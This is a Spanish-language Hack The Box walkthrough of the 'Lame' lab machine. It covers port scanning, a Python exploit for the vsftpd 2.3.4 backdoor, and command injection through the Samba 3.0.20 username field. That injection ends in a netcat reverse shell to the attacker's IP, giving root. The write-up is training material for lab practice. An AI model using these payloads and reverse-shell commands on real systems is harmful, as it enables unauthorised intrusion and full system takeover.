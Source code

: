 ```yaml
---
layout: post
title: HTB_Lame
date: 2023/07/10
slug: HTB_Lame
heroImage: /assets/machines.jpg
---
```


# Lame {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Lame.

El replay del live se puede ver aqui

[![S4vitaar Lame maquina](https://img.youtube.com/vi/MNJi4k9uNKQ/0.jpg)](https://www.youtube.com/watch?v=MNJi4k9uNKQ)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.3
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.3
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```


| Puerto | Servicio | Que se nos occure?          | Que falta?           |
| ------ | -------- | --------------------------- | -------------------- |
| 21     | ftp      | Conexion como Anonymous     |                      |
| 22     | ssh      | Conneccion directa          | usuario y contraseña |
| 139    | smbd     | Conneccion con Null session |                      |
| 445    | smbd     | Conneccion con Null session |                      |
| 3632   | distccd  | Web, Fuzzing                |                      |



### Conexion Anonymous con ftp {-}

```bash
ftp 10.10.10.3

Name: anonymous
Password: 

Login successful

ls
```

Podemos connectar como anonymous pero no nos reporta nada. El resultado de nmap nos da que el vsftpd es de version 2.3.4.


## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Miramos si existe un exploit para este servicio.

```bash
searchsploit vsftpd 2.3.4
```

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en [cherrera0001 github](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit).

```python
#!/usr/bin/python3
from pwn import log,remote
from sys import argv,exit
from time import sleep

if len(argv) < 2:
    exit(f'Usage: {argv[0]} Target_IP')


p = log.progress("Running")
vsftpd = remote(argv[1], 21)

p.status('Checking Version')
recv = vsftpd.recvuntil(")",timeout=5)
version = (recv.decode()).split(" ")[2].replace(")","")
if version != '2.3.4':
	exit('2.3.4 Version Not Found')

vsftpd.sendline('USER hii:)')
vsftpd.sendline('PASS hello')
p.status('Backdoor Activated')

sleep(3)

backdoor = remote(argv[1], 6200)
p.success("Got Shell!!!")
backdoor.interactive()
```

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -> rabbithole. 

### SAMBA 3.0.20 {-}

```bash
searchsploit samba 3.0.20
```

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando `searchsploit -x 16320` y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

Vamos a por pruebas

1. Nos ponemos en escucha de trazas ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c "dir"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"
    smb: \> logon "/='nohup ping -c 1 10.10.14.7'"
    ```

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad SAMBA 3.0.20 {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.7 443`"'
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.
